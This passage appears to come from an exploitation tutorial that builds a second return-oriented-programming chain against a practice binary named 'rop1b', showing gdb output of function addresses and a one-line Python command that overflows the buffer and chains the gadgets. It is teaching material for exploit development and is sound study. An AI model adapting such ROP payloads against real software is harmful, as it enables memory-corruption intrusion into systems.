 ### Payload

Now that we know how the stack should look, let's build the payload for our second ROP chain.

First off, let's get addresses of our `rop1`, `rop2`, `rop3` and the libc `exit` functions:

```python
gdb-peda$ p rop1
$4 = {<text variable, no debug info>} 0x565561b9 <rop1>
gdb-peda$ p rop2
$5 = {<text variable, no debug info>} 0x565561e4 <rop2>
gdb-peda$ p rop3
$6 = {<text variable, no debug info>} 0x56556212 <rop3>
gdb-peda$ p exit
$7 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

![rop1, rop2, rop3 and exit function addresses inside rop1b vulnerable program](../../../.gitbook/assets/image%20%28938%29.png)

Let's also note the `popret` and `pop2ret` gagdet addresses:

![ROP gadget addresses for rop1b vulnerable program](../../../.gitbook/assets/image%20%28951%29.png)

Since we now know how the stack needs to look like, we have addresses for our functions and ROP gadgets, we can visualize our payload now like this:

![Visualized payload for 2nd ROP chain](../../../.gitbook/assets/image%20%28948%29.png)

### Exploit

We can now translate the above visualized payload to python like so:

```python
./rop1b "$(python -c 'print "A"*108 + "BBBB" + "\xb9\x61\x55\x56" + "\xe4\x61\x55\x56" + "\x1e\x60\x55\x56" + "\xef\xbe\xef\xbe" + "\x12\x62\x55\x56" + "\x0a\x63\x55\x56" + "\xad\xde\xad\xde" + "\xd3\xc0\xd3\xc0" + "\x50\x29\xe0\xf7" ')"
```

